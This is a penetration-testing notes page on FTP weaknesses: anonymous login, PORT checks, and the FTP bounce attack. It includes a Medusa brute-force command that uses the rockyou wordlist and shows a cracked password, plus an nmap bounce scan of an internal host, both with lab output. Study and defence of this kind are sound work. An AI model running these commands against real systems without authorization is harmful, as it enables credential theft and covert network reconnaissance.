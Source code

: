 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# FTP

## Misconfigurations

### Anonymous Authentication

Anonymous login is dangerous if read and write permissions have not been set up correctly for the FTP service, this is because with the anonymous login, the company could have stored sensitive information in a folder that the anonymous user of the FTP service could have access to.

{% hint style="info" %}
To gain access with the anonymous login, use the `anonymous` username and _**no**_ password.
{% endhint %}

This may allow an attacker to access sensitive information or even upload dangerous scripts. Using other vulnerabilities, such as path traversal in a web application, the attacker would be able to find out where this file is located and execute it.

### Port Security

Modern FTP servers only accept [**PORT** ](https://www.geeksforgeeks.org/computer-networks/port-security-in-computer-network/)commands that initiate a connection from the originating host. It denies any other `PORT` commands that may try to connect to different device IPs. An individual can check for this default feature in their systems.

If this setting is disabled the server may be open to attack such as: [#ftp-bounce-attack](ftp.md#ftp-bounce-attack "mention")

## Brute-Forcing

### Using Medusa

```bash
clue@machine[~]$ medusa -u greg -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: greg Password: password [SUCCESS]
```

## FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

{% hint style="warning" %}
## Old School Attack

Modern FTP servers by default prevent this attack, but if the server is misconfigured it may be vulnerable to the FTP Bounce Attack.

[#port-security](ftp.md#port-security "mention")
{% endhint %}

Consider we are targeting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

The [nmap](../../../toolbox/tooling/information-gathering/nmap/ "mention") `-b` flag can be used to perform an FTP bounce attack:

```bash
clue@machine[~]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```
